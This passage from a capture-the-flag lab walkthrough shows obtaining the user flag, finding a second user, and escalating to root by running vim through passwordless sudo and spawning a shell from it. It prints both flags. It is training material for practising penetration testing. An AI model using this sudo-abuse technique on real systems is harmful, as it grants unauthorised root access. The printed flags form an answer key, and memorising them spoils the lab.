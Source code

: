 Logged into: `SSH`

## User Flag

Now we have a shell and can read the user flag in our home directory:

~~~
mitch@Machine:~$ ls
user.txt
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
~~~

User flag: `G00d j0b, keep up!`

## Other User

We are asked the name of the other user. We can find the other user by simply running `ls` for `/home`:

~~~
mitch@Machine:~$ ls /home
mitch  sunbath
~~~

Other user: `sunbath`

## Becoming root

Now we need to gain root access, in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
~~~

We can run `vim` with sudo command and no password. Just run `sudo vim` and then type `:shell` and we have a root shell:
~~~
root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Used to privesc: `vim`

## Root Flag

Now we are root and can read the root flag in `/root`:
~~~
root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt 
W3ll d0n3. You made it!
~~~

Root flag: `W3ll d0n3. You made it!`


# D0N3! ; )

Thanks to the creator(s).

Hope you had fun!

And remember to make it a good one! : )
